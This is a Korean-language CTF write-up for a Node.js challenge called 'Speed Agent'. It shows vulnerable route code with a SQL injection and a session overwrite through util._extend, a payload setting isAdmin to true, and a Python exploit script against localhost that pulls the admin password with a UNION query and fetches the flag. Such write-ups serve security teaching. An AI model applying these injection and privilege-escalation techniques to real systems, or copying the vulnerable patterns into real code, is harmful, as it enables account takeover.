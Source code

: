 # Speed Agent

#### 설명

- 간단한 node.js API 서버
- admin 권한이 되는 것이 목표인 것을 알 수 있다.

```js
// admin_router
admin_router.get('/flag', function(req, res){
	var result = {};
	if(req.session.isAdmin === true) return res.send(FLAG());
	res.send('admin page');
});
```

#### 취약점 1

```js
agent_router.get('/search/:uid', function(req, res){
	var uid = req.params.uid;
	db.get('select * from USER where id='+uid,function(err,row){
		if(err){
			return res.status(500).json({'Error':-1, 'Message':'DB Error'});
		}

		var data = {
			uid: row.id,
			userid: row.userid,
			username: row.username,
			isAdmin: row.isAdmin?true:false,
		};

		return res.json({'Error':0 , 'Message': data });
	});
});
```

유저 검색을 하는 기능 중 유저가 입력한 uid로 인해 SQL Injection이 발생한다. 이를 통해 admin 권한을 가진 유저의 패스워드를 획득 할 수 있으며 해당 admin 계정으로 로그인하게 되면 플래그를 얻을 수 있다.

#### 취약점 2

```js
agent_router.put('/changename', function(req, res){
	const { username } = req.body;

	var name = username.toString();
	db.run('UPDATE USER SET username=? where id=?', name, req.session.uid, function (err) {
		if (err) {
			return res.status(500).json({'Error':-1, 'Message':err.message});
		}
		util._extend(req.session, req.body);
		return res.json({'Error': 0, 'Message':'success'})
	});
});
```

이름을 변경하는 기능에서 `util._extend` 에서 Object Copy 로 인해 현재 유저의 session 데이터를 덮을 수 있게 된다.

```json
{"username":"AnyThing~", "isAdmin":true}
```

위 데이터와 같이 현재 session의 `isAdmin` 값을 `true`로 변경하면 플래그를 얻을 수 있다.

#### 레퍼런스 익스플로잇

```python
import requests, json
import random
import string

def randomString(stringLength=10):
	letters = string.ascii_letters
	return ''.join(random.choice(letters) for i in range(stringLength))

url = "http://localhost:3000/"
headers = {'Content-Type': 'application/json; charset=utf-8'}

def join_login(r):
	userid = randomString()
	userpw = randomString()
	username = randomString()
	data = {'userid':userid, 'userpw':userpw, 'username': username}
	r.put(url + "join", headers=headers, data=json.dumps(data))
	r.post(url+"login", headers=headers, data=json.dumps(data))
	return userid, userpw

def get_flag(r):
	ret = r.get(url+"admin/flag")
	print ret.text

# object copy
def vuln1():
	r = requests.session()
	userid, userpw = join_login(r)
	print userid, userpw

	data = '{"username":"zxc", "isAdmin":true }'
	res = r.put(url + "user/changename", headers=headers, data=data)
	print res.text

	res = r.get(url+"user/me")
	print res.text
	get_flag(r)

# sql injection
def vuln2():
	r = requests.session()
	userid, userpw = join_login(r)
	print userid, userpw
	res = r.get(url + 'user/search/1 union select 1,userpw,3,4,5 from USER where userid="admin"', headers=headers)
	admin_pw = json.loads(res.text)['Message']['userid']
	print admin_pw

	data = {'userid':'admin', 'userpw':admin_pw}
	r.post(url+"login", headers=headers, data=json.dumps(data))
	get_flag(r)


vuln1()
exit()
```
